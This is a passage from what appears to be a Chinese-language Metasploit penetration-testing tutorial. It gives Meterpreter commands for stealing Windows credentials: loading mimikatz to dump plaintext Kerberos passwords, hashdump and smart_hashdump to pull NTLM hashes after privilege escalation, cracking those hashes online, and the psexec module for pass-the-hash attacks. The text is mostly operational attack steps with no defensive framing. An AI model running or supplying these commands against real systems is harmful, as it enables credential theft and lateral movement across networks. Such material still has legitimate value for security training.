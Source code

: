 ![mimikatz](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/metasploit/进阶篇/图片28.png)  
命令：
load mimikatz
kerberos  
![mimikatz](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/metasploit/进阶篇/图片29.png)  
直接提到明文密码！！  
对于不支持的主机版本，比如win8等版本，可以将会话提升到管理员或者系统权限，然后提取hash：  
命令：hashdump（低版本win）
对于高版本windows，可以输入命令：  
smart_hashdump
run windows/gather/smart_hashdump
提取到的hash可以去md5站破解（ntlm），当然不一定能解密出来，对于复杂密码，我们可以进行hash传递攻击：
use exploit/windows/smb/psexec  